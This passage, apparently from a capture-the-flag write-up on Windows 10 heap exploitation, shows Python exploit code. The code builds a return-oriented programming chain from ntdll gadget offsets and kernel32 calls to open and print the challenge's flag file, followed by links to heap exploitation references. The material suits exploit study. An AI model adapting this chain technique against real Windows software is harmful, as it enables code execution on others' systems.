 ```python
    ReadFile(r1, scratch + 0x100, 0x100, scratch + 0x200, 0);
    r2 = GetStdHandle(-11);
    WriteFile(r2, scratch + 0x100, 0x100, scratch + 0x200, 0);
    Sleep(0xffffffff);
    """

    skipper = ntdll.base + 0x90c87
    ret = ntdll.base + 0x1029
    pop_rax = ntdll.base + 0x5f44
    pop_rcx = ntdll.base + 0x8db8f
    pop_rdx_r11 = ntdll.base + 0x8b547
    pop_r9_r10_r11 = ntdll.base + 0x8b544
    pop_r8_r9_r10_r11 = ntdll.base + 0x8b542
    pop_rcx_r8_r9_r10_r11 = ntdll.base + 0x8b541
    mov_drcx_rax = ntdll.base + 0x78773
    xor_r8 = ntdll.base + 0x8eb91
    OpenFile = kernel32.base + kernel32.symbols['OpenFile']
    ReadFile = kernel32.base + kernel32.symbols['ReadFile']
    WriteFile = kernel32.base + kernel32.symbols['WriteFile']
    GetStdHandle = kernel32.base + kernel32.symbols['GetStdHandle']
    Sleep = kernel32.base + kernel32.symbols['Sleep']
    scratch = binary.base + 0x1f000

    payload  = [
        skipper,  # aligns at this position at function start (payload_start)
        None,  # skip over ctx pointer & ctx data, etc...
        None,
        None,
        None,
        None,
        None,
        None,
        None,
        None,
        pop_rax,
        u64("lag.txt\0"),
        pop_rcx,
        scratch + 0x308,
        mov_drcx_rax,
        pop_rax,
        u64("C:\\CTF\\f"),
        pop_rcx,
        scratch + 0x300,  # r"C:\CTF\flag.txt"
        mov_drcx_rax,
        pop_rdx_r11,
        scratch + 0x000,
        None,
        xor_r8,
        ret,
        OpenFile,
        pop_rcx_r8_r9_r10_r11,
        None,  # shadow space
        None,
        None,
        None,
        None,
        pop_rcx,
        payload_start + 0x24 * 8,  # &r1
        mov_drcx_rax,
        pop_rcx,
        None,  # r1 (idx 0x24)
        pop_rdx_r11,
        scratch + 0x100,
```

[PDBEX]: https://github.com/wbenny/pdbex
[REF1]: https://www.slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-english-version
[REF2]: https://github.com/peleghd/Windows-10-Exploitation/blob/master/Low_Fragmentation_Heap_(LFH)_Exploitation_-_Windows_10_Userspace_by_Saar_Amar.pdf